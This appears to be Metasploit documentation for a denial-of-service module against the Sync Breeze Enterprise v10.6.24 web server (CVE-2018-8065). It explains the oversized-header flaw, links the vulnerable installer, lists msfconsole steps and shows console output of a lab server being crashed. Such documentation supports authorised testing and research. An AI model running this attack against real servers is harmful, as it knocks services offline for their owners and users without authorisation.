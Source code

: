 ## Description
This module triggers a Denial of Service vulnerability in the Sync Breeze Enterprise HTTP server. It is possible to trigger 
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.  


## Vulnerable Application 
According To publicly exploit Disclosure of Sync Breeze Enterprise v10.6.24
this software is vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

**Vulnerable Application Link** 
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe

## Vulnerable Application Installation Setup.
Download Application : ```http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/syncbreeze_enterprise_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[*] 192.168.1.27:80 - Checking connection to 192.168.1.27:80
[+] 192.168.1.27:80 - Sync Breeze Enterprise v10.6.24 verified.
[+] 192.168.1.27:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios
**TESTED AGAINST WINDOWS 7/10**
```
msf5 > use auxiliary/dos/http/syncbreeze_enterprise_dos 
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > run

[*] 192.168.1.27:80 - Checking connection to 192.168.1.27:80
[+] 192.168.1.27:80 - Sync Breeze Enterprise v10.6.24 verified.
[*] 192.168.1.27:80 - Sending HTTP DoS packets...
[*] 192.168.1.27:80 - Request size: (6667) byte
[*] 192.168.1.27:80 - Request size: (13990) byte
[*] 192.168.1.27:80 - Request size: (15797) byte
[*] 192.168.1.27:80 - Request size: (20369) byte
[*] 192.168.1.27:80 - Request size: (11119) byte
[*] 192.168.1.27:80 - Request size: (16293) byte
[*] 192.168.1.27:80 - Request size: (13830) byte
...
[+] 192.168.1.27:80 - DoS successful 192.168.1.27 is down !
[*] Auxiliary module execution completed

```
